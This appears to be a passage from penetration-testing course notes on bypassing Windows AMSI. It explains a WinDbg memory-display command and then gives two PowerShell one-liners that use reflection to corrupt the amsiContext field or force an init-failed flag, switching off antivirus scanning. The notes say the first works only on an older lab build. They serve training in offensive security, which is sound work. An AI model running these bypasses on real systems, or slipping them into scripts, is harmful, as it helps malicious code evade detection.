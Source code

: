 ![](Images/07-Bypassing-AMSI-Windbg.png)
In WinDbg, the command `dc rcx L1` is used to display memory contents. Let's break down the components of this command:

1. **`dc`**: This command stands for "Display memory in DWORDs." It displays the contents of memory at a specified address in DWORD (4-byte) units. 

2. **`rcx`**: This is the register whose value is used as the starting address for the memory display. `rcx` is one of the general-purpose registers in x86-64 architecture.

3. **`L1`**: This specifies the length of the display. `L1` means to display 1 DWORD (4 bytes) of memory starting from the address in `rcx`.

So, the command `dc rcx L1` in WinDbg displays 4 bytes of memory starting at the address stored in the `rcx` register.

In the above image, the contents of AMSI Header value was overwritten.

#### 7.3.1.3 Bypassing AMSI by modifying amsiContext field

*Note:* This works on the lab Windows 10 (build 17763), but fails with current versions
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

#### 7.3.2.1

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iInitFailed") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$f.SetValue($null,$true)
```
#### 7.4.1.1
